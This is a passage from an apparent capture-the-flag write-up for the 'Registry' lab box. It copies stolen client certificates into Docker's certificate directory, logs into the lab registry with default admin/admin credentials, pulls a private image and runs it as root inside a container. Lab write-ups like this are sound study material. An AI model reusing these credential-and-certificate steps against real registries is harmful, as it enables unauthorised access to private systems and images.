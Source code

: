 ```sh
$ls
cert.pem     client.key  client.cert
$cp client.* cert.pem /etc/docker/certs.d/docker.registry.htb/.
$ls /etc/docker/certs.d/docker.registry.htb/
cert.pem     client.cert  client.key
```

Now that we have moved the keys to the `certs.d` for docker, we can login

```sh
$docker login  http://docker.registry.htb/
Username: admin
Password: admin
WARNING! Your password will be stored unencrypted in /root/.docker/config.json.
Configure a credential helper to remove this warning. See
https://docs.docker.com/engine/reference/commandline/login/#credentials-store

Login Succeeded
```

And now we can pull the image

```sh
$docker pull docker.registry.htb/bolt-image
Using default tag: latest
latest: Pulling from bolt-image
f476d66f5408: Pull complete
8882c27f669e: Pull complete
d9af21273955: Pull complete
f5029279ec12: Pull complete
2931a8b44e49: Pull complete
c71b0b975ab8: Pull complete
02666a14e1b5: Pull complete
3f12770883a6: Pull complete
302bfcb3f10c: Pull complete
Digest: sha256:eeff225e5fae33dc832c3f82fd8b0db363a73eac4f0f0cb587094be54050539b
Status: Downloaded newer image for docker.registry.htb/bolt-image:latest
```

Great we can now run this box hopefully

```sh
$docker ps -l
CONTAINER ID        IMAGE                            COMMAND             CREATED             STATUS                     PORTS               NAMES
8dffe724ead5        docker.registry.htb/bolt-image   "bash"              4 seconds ago       Exited (0) 2 seconds ago                       stoic_ramanujan

$docker run -it docker.registry.htb/bolt-image
root@1abe759b82f6:/# whoami
root
```
Great we are on the image. **It looks like we have root, all done!**

# USER
